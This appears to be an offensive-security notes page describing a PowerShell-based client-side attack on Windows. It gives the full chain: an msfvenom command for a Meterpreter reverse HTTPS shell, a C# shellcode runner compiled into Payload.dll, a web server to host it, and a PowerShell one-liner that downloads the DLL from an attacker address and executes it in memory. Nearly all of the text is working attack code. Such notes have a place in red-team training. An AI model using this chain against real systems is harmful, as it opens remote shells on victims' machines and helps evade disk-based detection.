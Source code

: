 ### Powershell

Borrowing from the work laid out in `notes/windows/client-side-attacks/wscript.md`, we leverage the same ideas, but instead of delivering `Payload.dll` with Jscript, we do so with Powershell.

We begin with generating our shellcode:
```bash
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.0.1 LPORT=443 -f csharp
```
We paste the output into relevant section of the following file, then save it as `InMemBundleOfJoy.cs`:
```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

[ComVisible(true)]
public class InMemBundleOfJoy
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize,
      uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
      IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

    public static void runner()
    {
        byte[] buf = new byte[626] {
            0xfc,0x48,0x83,0xe4,0xf0,0xe8... // replace me!!
        }

        int size = buf.Length;

        IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

        Marshal.Copy(buf, 0, addr, size);

        IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

        WaitForSingleObject(hThread, 0xFFFFFFFF);
    }
}
```
Compile the DLL:
```bash
dotnet new classlib -n DodgyLibrary
dotnet build DodgyLibrary
mv InMemBundleOfJoy.cs DodgyLibrary
cd DodgyLibrary
csc -target:library -out:Payload.dll InMemBundleOfJoy.cs
```
Make it available via web server:
```bash
python3 -m http.server 80
```
Pull it onto the target machine and execute in memory with the following Powershell:
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.x.x/Payload.dll')
$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("DodgyLibrary.InMemBundleOfJoy")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```